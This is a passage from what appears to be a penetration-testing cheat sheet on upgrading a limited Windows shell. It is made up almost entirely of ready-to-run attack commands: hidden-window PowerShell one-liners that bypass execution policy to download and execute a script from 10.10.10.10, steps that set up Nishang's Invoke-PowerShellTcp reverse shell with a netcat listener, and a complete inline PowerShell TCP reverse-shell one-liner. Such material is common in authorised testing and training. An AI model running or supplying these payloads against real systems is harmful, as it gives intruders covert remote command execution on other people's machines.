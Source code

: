```cmd
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -WindowStyle hidden -NonInteractive -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/Invoke-PowerShellTcp.ps1'))"
```

There are also some no-so-well documented PowerShell argument shortcuts so can use things like -w rather than -WindowsStyle (handy for smaller payloads):  
```
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -w hidden -noni -nop -i None -ex Bypass -c "iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/Invoke-PowerShellTcp.ps1'))"
```  

### Upgrading your Windows Shell
You might find that you are connected with a limited shell such as a Web shell, netcat shell or Telnet connection that simply is not cutting it for you. Here are a few oneliners you can use to upgrade your shell:

### Upgrade Shell with PowerShell Nishang
Nishang is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security and post exploitation during Penetraion Tests. The scripts are written on the basis of requirement by the author during real Penetration Tests.

```bash
root@kali:~/test# git clone https://github.com/samratashok/nishang.git                                                  
Cloning into 'nishang'...
remote: Enumerating objects: 1612, done.
remote: Total 1612 (delta 0), reused 0 (delta 0), pack-reused 1612
Receiving objects: 100% (1612/1612), 5.87 MiB | 6.62 MiB/s, done.
Resolving deltas: 100% (1010/1010), done.
root@kali:~/test# cd nishang/
root@kali:~/test/nishang# cd Shells/
root@kali:~/test/nishang/Shells# echo Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.10 -Port 4444 >> Invoke-PowerShellTcp.ps1
root@kali:~/test/nishang/Shells# python -m SimpleHTTPServer 80
```
Now open up a netcat listener on Kali:
```bash
nc -nlvp 4444
```
And Execute the remote powershell script hosted on your Kali SimpleHTTPServer 
```cmd
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/Invoke-PowerShellTcp.ps1'))"
```

### Upgrade Windows Command Line with a Powershell One-liner Reverse Shell:  
You can run this oneliner from the remote Windows command prompt to skip the file upload step entirely (again be sure to update the IP and port):
```cmd
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "&{$client = New-Object System.Net.Sockets.TCPClient(\"10.10.10.10\",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + \"PS \" + (pwd).Path + \"^> \";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()}"
```
